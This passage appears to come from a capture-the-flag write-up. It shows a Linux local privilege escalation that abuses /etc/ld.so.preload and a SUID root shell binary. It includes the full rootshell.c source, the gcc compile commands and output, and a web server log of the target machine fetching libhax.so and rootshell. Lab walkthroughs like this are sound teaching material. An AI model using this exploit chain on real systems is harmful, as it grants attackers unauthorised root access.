 The **C-file** changes the ownership of a file **/tmp/rootshell** to **root**. Then it sets the **SUID** bit set for the same file. After that, it deletes a shared object file **/etc/ld.so.preload**. We are going to generate the shared object file for **libhax.c**

Then the exploit creates another **C-file** called **rootshell.c**.

```
root@kali:~# cat rootshell.c 
#include <stdio.h>
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL, NULL);
}
```

This file just set the **UID** and **GID** to **0**. Then it calls the **/bin/sh** binary to get a shell.

Now, let us compile them and serve to the remote box.

```
root@kali:~# gcc -fPIC -shared -ldl -o libhax.so libhax.c
libhax.c: In function ‘dropshell’:
libhax.c:7:5: warning: implicit declaration of function ‘chmod’ [-Wimplicit-function-declaration]
    7 |     chmod("/tmp/rootshell", 04755);
      |     ^~~~~
root@kali:~# gcc -o rootshell rootshell.c
rootshell.c: In function ‘main’:
rootshell.c:3:5: warning: implicit declaration of function ‘setuid’ [-Wimplicit-function-declaration]
    3 |     setuid(0);
      |     ^~~~~~
rootshell.c:4:5: warning: implicit declaration of function ‘setgid’ [-Wimplicit-function-declaration]
    4 |     setgid(0);
      |     ^~~~~~
rootshell.c:5:5: warning: implicit declaration of function ‘seteuid’ [-Wimplicit-function-declaration]
    5 |     seteuid(0);
      |     ^~~~~~~
rootshell.c:6:5: warning: implicit declaration of function ‘setegid’ [-Wimplicit-function-declaration]
    6 |     setegid(0);
      |     ^~~~~~~
rootshell.c:7:5: warning: implicit declaration of function ‘execvp’ [-Wimplicit-function-declaration]
    7 |     execvp("/bin/sh", NULL, NULL);
      |     ^~~~~~
rootshell.c:7:5: warning: too many arguments to built-in function ‘execvp’ expecting 2 [-Wbuiltin-declaration-mismatch]
root@kali:~# python3 -m http.server 80
\Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.24 - - [26/Feb/2021 13:36:35] "GET /libhax.so HTTP/1.1" 200 -
10.10.10.24 - - [26/Feb/2021 13:36:55] "GET /rootshell HTTP/1.1" 200 -
```
